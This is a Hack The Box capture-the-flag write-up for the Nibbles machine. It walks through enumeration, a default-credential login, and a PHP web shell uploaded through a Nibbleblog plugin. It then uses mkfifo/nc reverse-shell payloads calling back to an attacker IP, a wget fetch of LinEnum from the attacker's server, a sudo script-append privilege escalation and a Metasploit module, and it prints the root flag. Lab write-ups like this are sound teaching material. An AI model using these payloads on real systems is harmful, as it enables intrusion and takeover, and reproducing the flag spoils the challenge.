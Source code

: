 ```yaml
---
layout: post
title: "Nibbles – Hack The Box"
categories: htb
date: 2025-07-12
---
```


## 🧠 Summary

Hack The Box's **Nibbles** is an easy Linux box that walks us through basic web enumeration, CMS exploitation, reverse shell upload via a plugin, and privilege escalation through misconfigured script execution rights.

---

## 🛠️ Tools Used

- Nmap
- WhatWeb
- Gobuster
- Curl
- LinEnum
- Netcat
- PHP Web Shell
- Python HTTP server

---

## 🖥️ Target Info

- IP: `10.129.249.115`
- OS: Linux (Ubuntu)
- Web: Apache 2.4.18
- CMS: Nibbleblog v4.0.3 (codename Coffee)

---

## 🚀 Steps to Root

### 1. Nmap Scan

```bash
nmap -sV -sC -p 80 --open 10.129.249.115
```
Apache found running on port 80.
📸 Screenshot 1: Nmap scan output

### 2. WhatWeb Scan
```bash
whatweb http://10.129.249.115
```
Identified Apache version and OS.
📸 Screenshot 2: WhatWeb output

### 3. Curl the Web Root
```bash
curl http://10.129.249.115
```
Found a suspicious comment:
```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
📸 Screenshot 3: HTML comment revealing /nibbleblog/

### 4. WhatWeb on /nibbleblog
```bash
whatweb http://10.129.249.115/nibbleblog
```
Reveals site is powered by Nibbleblog.
📸 Screenshot 4: WhatWeb shows Nibbleblog CMS

5. Directory Bruteforce with Gobuster
```bash
gobuster dir -u http://10.129.249.115/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
Discovered /admin, /content, /plugins, /README, and more.
📸 Screenshot 5: Gobuster results

6. Extract CMS Version from README
```bash
curl http://10.129.249.115/nibbleblog/README
```
Found Nibbleblog v4.0.3
📸 Screenshot 6: README showing version

7. Check users.xml File
```bash
curl -s http://10.129.249.115/nibbleblog/content/private/users.xml | xmllint --format -
```
Username found: admin
📸 Screenshot 7: Found username inside XML

8. Check config.xml for Metadata
```bash
curl -s http://10.129.249.115/nibbleblog/content/private/config.xml | xmllint --format -
```
Email fields and blog path information found.
📸 Screenshot 8 and 📸 Screenshot 9: Config values and admin email

9. Admin Login Page
Go to:
```bash
http://10.129.249.115/nibbleblog/admin.php
```
Try default creds:
```bash
Username: admin
Password: nibbles
```
📸 Screenshot 10: Login page
📸 Screenshot 11: Dashboard accessed

10. Upload Web Shell via Plugin
Go to: Plugins → My Image
Upload a shell like:
```php
<?php system('id'); ?>
```
📸 Screenshot 12: Shell file
📸 Screenshot 13: My Image plugin panel

11. Trigger Web Shell
Visit:
```bash
http://10.129.249.115/nibbleblog/content/private/plugins/my_image/image.php
```
You’ll get UID confirmation.
📸 Screenshot 14: Web shell output

12. Get a Reverse Shell
Use this payload:
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.76 9443 >/tmp/f"); ?>
```
Start listener:
```bash
nc -lvnp 9443
```
📸 Screenshot 15: Reverse shell payload
📸 Screenshot 16: Listener + user.txt flag

13. Post-Exploitation
Unzip personal.zip:
```bash
unzip personal.zip
```
📸 Screenshot 17: Archive extraction reveals monitor.sh

14. Transfer and Run LinEnum
On attacker:
```bash
sudo python3 -m http.server 8080 - make sure same dir as linenum
```
On target:
```bash
wget http://10.10.14.76:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
📸 Screenshot 18: Serving LinEnum
📸 Screenshot 19: LinEnum output

15. Privilege Escalation via monitor.sh
From LinEnum:
```text
(ALL) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Exploit:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.76 8443 >/tmp/f' >> /home/nibbler/personal/stuff/monitor.sh
nc -lvnp 8443
sudo /home/nibbler/personal/stuff/monitor.sh
```
📸 Screenshot 20: sudo rights
📸 Screenshot 21: Priv esc attempt
📸 Screenshot 22: Root shell via nc
📸 Screenshot 23: Final root.txt captured

🧨 Root Flag
```bash
cat /root/root.txt
```
```text
de5e5d6619862a8aa5b9b212314e0cdd
```
⚡ Metasploit Alternative (Optional)
If you want to skip manual steps:
```bash
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set RHOSTS 10.129.249.115
set RPORT 80
set TARGETURI /nibbleblog
set USERNAME admin
set PASSWORD nibbles
exploit
```
This gives you a meterpreter shell directly.

🏁 Conclusion
The Nibbles box reinforces how outdated CMS versions and weak plugin validation can lead to full system compromise. Enumeration, basic scripting, and privilege escalation misconfigs made this a solid beginner box.

